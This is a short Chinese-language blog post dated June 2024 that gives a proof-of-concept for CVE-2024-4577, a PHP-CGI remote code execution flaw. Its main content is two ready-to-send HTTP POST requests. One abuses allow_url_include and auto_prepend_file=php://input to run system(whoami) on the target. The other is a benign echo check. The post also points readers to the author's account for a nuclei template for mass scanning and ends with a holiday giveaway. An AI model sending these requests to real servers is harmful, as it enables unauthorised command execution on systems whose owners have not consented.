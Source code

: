 #  PHP 最新RCE POC (nuclei文件) (内含抽奖)   
原创 fkalis  fkalis   2024-06-08 13:10  
  
**1. 手工复现**  
  
**验证poc：**  
```
POST /php-cgi/php-cgi.exe?%add+allow_url_include%3d1+%add+auto_prepend_file%3dphp://input HTTP/1.1
Host: xxx.xxx.xxx
REDIRECT-STATUS:1
Content-type: text/html; charset=UTF-8
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

<?php echo system(whoami);?>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicfnpNibNgp54lwzo03aia3Nwr9uLOgpCh9nHsn2wcickRWRqan0OA3wPEdAibpFHxQFOmqENrvpDtD2FQ/640?wx_fmt=png&from=appmsg "")  
  
  
**无危害验证poc：**  
```
POST /php-cgi/php-cgi.exe?%add+allow_url_include%3d1+%add+auto_prepend_file%3dphp://input HTTP/1.1
Host: xxx.xxx.xxx
REDIRECT-STATUS:1
Content-type: text/html; charset=UTF-8
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

<?php echo "fkalis";?>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicfnpNibNgp54lwzo03aia3Nwr8gIWmJvyh1e7VwhnicwGQnRC98jwg80psT5yyLK2XDzeqIIgN3Vna6Q/640?wx_fmt=png&from=appmsg "")  
  
  
**2. nuclei批量化验证**  
  
**进入【fkalis】公众号**  
  
**回复关键字【CVE-2024-4577****】获取批量化yaml文件**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicfnpNibNgp54lwzo03aia3NwrYhZP8Kia4FibN5icFOUBACPdBn2j6ibnYMgLO7GMeOUdsL3BWyfVD0iarzQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
**3. 端午抽奖**  
> **祝各位师傅端午节快乐，技术越来越牛逼！！**  
  
  
  
[]()  
  
  
****  
  
  
  
  
  
  
